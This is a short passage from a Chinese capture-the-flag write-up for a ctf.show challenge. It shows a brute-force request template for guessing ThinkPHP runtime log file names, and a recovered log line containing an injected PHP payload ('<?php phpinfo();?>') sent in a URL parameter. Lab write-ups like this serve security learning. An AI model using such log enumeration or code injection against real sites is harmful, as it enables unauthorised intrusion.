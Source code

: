 ![15](/medias/show-think/15.png)

爆破返回数据长度都一样，24年没有日志，往前试。闹麻了，爆了5年都没有，尝试下`/Application/Runtime/Logs/Home/`目录下的日志

```plaintext
GET /Application/Runtime/Logs/Home/§24_01_01§.log HTTP/1.1
Host: 19862dcf-d6d6-466c-a486-2836bd3ee425.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

找到线索，大概是类似前面的show方法渲染？

```plaintext
[ 2021-04-15T14:49:32+08:00 ] 127.0.0.1 /index.php?showctf=%3C?php%20phpinfo();?%3E
```
